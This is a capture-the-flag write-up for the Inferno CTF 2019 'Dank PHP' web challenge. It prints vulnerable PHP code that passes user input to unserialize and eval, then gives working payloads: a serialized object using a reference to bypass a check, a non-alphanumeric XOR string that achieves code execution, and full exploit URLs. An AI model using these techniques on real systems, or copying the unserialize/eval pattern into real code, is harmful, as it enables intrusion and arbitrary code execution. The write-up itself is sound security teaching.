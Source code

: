 # Inferno CTF 2019 – Dank PHP

* **Category:** Web
* **Points:** 375

## Challenge

> I love Dank Memes+PHP
> 
> Link: http://104.197.168.32:17010/
> 
> Author : MrT4ntr4

## Solution

The website will show its own source code.

```php
<?php
include "flag.php";

show_source(__FILE__);

class user {
  var $name;
  var $pass;
  var $secret;
}

if (isset($_GET['id'])) {

  $id = $_GET['id'];

  $usr = unserialize($id);
  if ($usr) {
    $usr->secret = $flag1;
    if ($usr->name === "admin" && $usr->pass === $usr->secret) {
      echo "Congratulation! Here is something for you...  " . $usr->pass;
      if (isset($_GET['caption'])) {
        $cap = $_GET['caption'];
        if (strlen($cap) > 45) {
          die("Naaaah, Take rest now");
        }
        if (preg_match("/[A-Za-z0-9]+/", $cap)) {
          die("Don't mess with the best language!!");
        }
        eval($cap);
        // Try to execute echoFlag()
      } else {
        echo "NVM You are not eligible";
      }
    } else {
      echo "Oh no... You can't fool me";
    }

  } else {
    echo "are you trolling?";
  }

} else {
  echo "Go and watch some Youthoob Tutorials Kidosss!!";
}
```

You have to bypass some checks in order to get the flag. The first part of the flag, i.e. `$flag1`, is printed after the first check, the second part of the flag can be obtained executing `echoFlag()` method when the `eval($cap)` instruction is reached.

First of all you have to replicate a serialized input to pass via `id` HTTP GET parameter. This could be done with the following code.

```php
<?php
class user {
  var $name;
  var $pass;
  var $secret;
}

$usr = new user();
$usr->name = "name";
$usr->pass = "pass";
$usr->secret = "secret";

$id = serialize($usr);
echo $id;
```

The result is the following payload.

```
O:4:"user":3:{s:4:"name";s:5:"admin";s:4:"pass";s:4:"pass";s:6:"secret";s:6:"secret";}
```

The first check to bypass is the following.

```php
    $usr->secret = $flag1;
    if ($usr->name === "admin" && $usr->pass === $usr->secret) {
```

This can be achieved referencing `$usr->secret` field from the `$usr->pass` field, so when the assign operation with `$flag1` will be performed, both fields will be equals.

In PHP serialization, this can be done with the `R` clause, pointing to the index of the referenced object. The crafted payload is the following.

```
O:4:"user":3:{s:4:"name";s:5:"admin";s:6:"secret";s:6:"secret";s:4:"pass";R:3;}
```

The complete URL is the following.

```
http://104.197.168.32:17010/?id=O:4:%22user%22:3:{s:4:%22name%22;s:5:%22admin%22;s:6:%22secret%22;s:6:%22secret%22;s:4:%22pass%22;R:3;}
```

The answer will be the following.

```
Congratulation! Here is something for you...
infernoCTF{pHp_1s_
NVM You are not eligible
```

The second check to bypass is the following.

```php
      if (isset($_GET['caption'])) {
        $cap = $_GET['caption'];
        if (strlen($cap) > 45) {
          die("Naaaah, Take rest now");
        }
        if (preg_match("/[A-Za-z0-9]+/", $cap)) {
          die("Don't mess with the best language!!");
        }
        eval($cap);
        // Try to execute echoFlag()
```

This is quite hard, because there are two strong constraints.

Usually, `preg_match` [can be bypassed using arrays](https://bugs.php.net/bug.php?id=69274), but in this case I was not able to use the content of the array into the `eval` instruction.

Googling around, I learned about a technique to bypass WAF using non-alfanumeric input, performing logic operations on non-alfanumeric chars using non-alfanumeric variables.

Considering the check on the length, and the overhead of this kind of payloads, probably the best way to attack the endpoint is to read another HTTP GET parameter, with non-alfanumeric name, e.g. `_`.

I found two interesting websites:
* [Bypass WAF - Php webshell without numbers and letters](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/);
* [`preg_match` Code Execution](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#preg_match-code-execution).

In the second website, there is the same scenario of the challenge, so I used it to craft my payload.

Using bitwise XOR operation in PHP, you can craft `_GET` string using non-alfanumeric chars and assign this value to a variable with a non-alfanumeric name.

```php
$_="`{{{"^"?<>/"; // This is: "_GET" string.
```

Then you can specify the execution of the content of a GET parameter with the following code.

```php
${$_}[_]();       // This is $_GET[_]()
```

So the complete payload that will be executed by the `eval` instruction will be the following.

```php
$_="`{{{"^"?<>/";${$_}[_]();
```

Putting everything together, you can craft the final URL to invoke. The last thing to do is to specify the HTTP GET parameter called `_` where the name of the function to call will be passed.

```
http://104.197.168.32:17010/?id=O:4:%22user%22:3:{s:4:%22name%22;s:5:%22admin%22;s:6:%22secret%22;s:6:%22secret%22;s:4:%22pass%22;R:3;}&caption=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_]();&_=echoFlag
```

The web page will give the following answer.

```
Congratulation! Here is something for you...
infernoCTF{pHp_1s_
a_h34dache}
```

So the flag is the following.

```
infernoCTF{pHp_1s_a_h34dache}
```